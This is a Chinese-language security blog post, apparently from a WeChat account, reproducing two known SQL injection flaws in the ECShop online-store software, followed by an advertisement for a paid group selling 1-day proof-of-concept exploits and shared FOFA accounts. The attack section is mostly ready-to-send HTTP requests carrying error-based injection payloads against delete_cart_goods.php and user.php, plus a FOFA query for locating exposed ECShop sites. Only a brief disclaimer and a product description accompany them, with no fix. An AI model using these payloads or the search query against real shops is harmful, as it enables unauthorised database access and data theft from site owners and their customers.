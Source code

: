 #  【漏洞复现】（nday）Ecshop两个注入复现   
南极熊  WK安全   2023-11-26 09:27  
  
0x01 阅读须知  
  
**SCA御盾实验室的技术文章仅供参考，此文所提供的信息只为网络安全人员对自己所负责的网站、服务器等（包括但不限于）进行检测或维护参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。本文所提供的工具仅用于学习，禁止用于其他！！！**  
  
**0x02 漏洞描述**  
  
**（一）**  
**Ecshop**  
  
ECShop是一款B2C独立网店系统，适合企业及个人快速构建个性化网上商店。系统是基于PHP语言及MYSQL数据库构架开发的跨平台开源程序。最新版本为4.0.0。ECShop开发了独有的高效模板引擎（2.15以前版本使用smarty模板引擎），并结合了Dreamweaver的模板和库功能，使得编辑制作模板变得更简单。此外，ECShop还具有开放的插件机制、功能AJAX化、促销功能、高效率的代码和执行性能、搜索引擎优化、内置手机短信网关以及多语言支持等多种特色功能。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/RxxRc1KlrIjAkwzkLRiadicfEWYXkLwO7Fs36bZhaJTJ8ibBDbW7Gj4TDl8kBicQJbvbqn4qM84iafgHJhkiboAA1XIw/640?wx_fmt=jpeg&from=appmsg "")  
  
fofa语法：  
```
app="ECShop"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/RxxRc1KlrIjAkwzkLRiadicfEWYXkLwO7Ftgz41gnpBnibqksudc2V6TWHZJJJ8P09t1OfpOoTNices2nMNYXicgFOg/640?wx_fmt=png&from=appmsg "")  
  
（二） 漏洞复现   
  
注入1：  
```
POST /delete_cart_goods.php HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0
Content-Type: application/x-www-form-urlencoded

id=0||(updatexml(1,concat(0x7e,(select%20user()),0x7e),1))
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/RxxRc1KlrIjAkwzkLRiadicfEWYXkLwO7FvsBsL5EnwFiatWJOBsQ8NVX4FrTOHAOsK3uZ72a97cricEWFdf28c36A/640?wx_fmt=png&from=appmsg "")  
  
注入2（后台注入）：  
```
POST /user.php?act=collection_list HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0
X-Forwarded-Host': '45ea207d7a2b68c49582d2d22adf953apay_log|s:55:"1' and updatexml(1,insert(user(),1,1,0x7e),1) and '";|45ea207d7a2b68c49582d2d22adf953a
Cookie:ECS_ID={{ecsid}}
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/RxxRc1KlrIjAkwzkLRiadicfEWYXkLwO7FxpRRxkaTmRMGQYD33W8ibMGBFq1UO7OoRHMAb8ZxWOpgOPoLWnkBUYg/640?wx_fmt=png&from=appmsg "")  
  
**技术交流可加下方wx**  
  
****  
**|**  
**知识星球的介绍**  
  
不好意思，兄弟们，这里给湘安无事星球打个广告，不喜欢的可以直接滑走哦。添加下面wx加星球可享优惠  
  
1.群主为什么要建知识星球？  
```
很简单为了恰饭哈哈哈，然后也是为了建立一个圈子进行交流学习和共享资源嘛
相应的也收取费用嘛，毕竟维持星球也需要精力
```  
  
2.知识星球有哪些资源？  
```
群里面联系群主是可以要一些免费的学习资料的，因为群里面大部分是大学生嘛
大学生不就是喜欢白嫖，所以大家会共享一些资料
没有的群主wk也有,wk除了不会pc,其他都能嫖hhh
```  
  
一些实战报告，截的部分  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/S2ssjS1jNYsaic5UibibYwwA4tj3bicXuF62RcLSRwZcEVNtIZkzdBc6oFT9jYPTSicI2dfuibvXY2XkqPEcmFtWPIxw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/S2ssjS1jNYsaic5UibibYwwA4tj3bicXuF62RB3woW60WbOxWFuYycTic8ltSWVvXRCHcpLIfl3tnaUI4rArq2YTPhw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/S2ssjS1jNYsaic5UibibYwwA4tj3bicXuF62TzMgcj8bnia1VDlFiaE5HHo8DGBibrfGYLJibnlEZ8MaJD1H5bNjUM4WiaA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
一些1day的poc,这些也就是信息差，不想找可以让wk帮你们嫖,群主也会经常发  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/S2ssjS1jNYsaic5UibibYwwA4tj3bicXuF62u6rIc801vEhGFYFsVtzrSKobQpybfzZvtmwOUjLStelMbJ5yg3Ouow/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/S2ssjS1jNYsaic5UibibYwwA4tj3bicXuF62oKLUAWOIwkcYbWfmE1JNBma2h9sEsJz7T6SRBOqz72gz9Cy0K7rlyQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/S2ssjS1jNYsaic5UibibYwwA4tj3bicXuF62vibbG0Nu1NhibkJcshXVDrklAYuXlTIK7Frkia05hmQZRAXEgpxF0MHOg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
一些共享的资源  
```
1.刀客源码的会员
2.fofa 360高级会员
3.专属漏洞库
5.专属内部it免费课程
6.不定期直播分享（星球有录屏）
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/S2ssjS1jNYvS1u1PKCurEmuM61nGSElnNalHCy4YicPa9bZ23vMDPHzQPDxybG50b760tL8KcAYTGjBicGocsdXw/640?wx_fmt=jpeg&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/S2ssjS1jNYuCJm1WAIhc9XAa6OLI3ryvT32RpoHYTibSMVnsTh875E0Jk4XPduRqDicRQGMWHDD4RnueHudPHI3g/640?wx_fmt=jpeg&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/1qkgPBQslIGDE39LQeXXicdKp3XFzjMS27ufaXu0zDItWnC9MmqzdGGPOTZbN0EQTklLKlicYx9sLQrBaeZV5D6g/640?wx_fmt=jpeg&from=appmsg "")  
****  
